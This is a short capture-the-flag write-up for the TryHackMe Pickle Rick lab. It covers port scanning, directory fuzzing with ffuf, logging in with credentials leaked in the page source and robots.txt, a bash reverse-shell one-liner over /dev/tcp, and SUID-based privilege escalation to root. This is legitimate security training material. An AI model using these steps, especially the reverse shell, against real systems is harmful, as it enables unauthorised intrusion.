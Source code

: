 * * *
  ### PICKLERICK CTF
  Lab platform: THM
* * *

### Enumeration
-  Scanning with rust scan

         rustscan -a <ip>
   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9a583d8e-d4c3-4336-8adf-99555949d27c)

- Fuzz for directories and files with ffuf which reveals a login.php and robots.txt file

       ffuf -u "http://10.10.92.53/FUZZ" -w "/usr/share/seclists/Discovery/Web-Content/big.txt"

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/871c3612-4d24-48aa-85dd-0f71d9bf64f8)

      ffuf -u "http://10.10.92.53/FUZZ" -w "/usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt" -e .php,.txt,.html -mc 200
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a433b0a4-337a-4980-b65e-78e8b816b1ea)


- Viewing the source of the index page reveals a username

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b6c9a89d-9eed-4c82-8e93-e8ef4be40a94)

- The robot.txt file reveals a weird word

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a634be9f-cbb6-45fd-9355-88500f0fbaa4)

- I logged in with the username and password <the weird word> which reveals a php page for shell commands execution and the picture below provides the result of executing 'ls' on the page

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/341db42e-b00e-4602-b9bb-1d0eee1c2484)

- Let's pop a bash rev shell from revshells.com "bash -c "bash -i >& /dev/tcp/<ip>/<port> 0>&1" and stablize the shell with pty py module

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0fa49651-b720-406a-9ff8-fd01d0218ef6)

### Escalating privileges 

- Look for files with suid bit with this command

       find / -perm -u=s -type f 2</dev/null

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/165012d2-7b95-4341-81d6-1f569183ca1a)

- I discovered with gtfobins that I can escalate privileges with su

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b7d4942a-53d2-421d-be12-3c57a73b32c7)

- Root access achieved

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/124a90b0-e6c9-475e-91f1-9f2fce928d0a)

### Finding the potions

- The first ingredient is located in the "/var/ww/html" directory

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0253ec42-8733-4dee-8d54-c21b4f5ed799)

- The second ingredient is located in RICK's home directory

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/54fe6041-5b56-4285-bf75-428782916b6b)

- The last ingredient is located in the root directory,challenge solved

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/fec592d4-7327-4efa-b615-ca3d1a7fe77f)


   
  
-
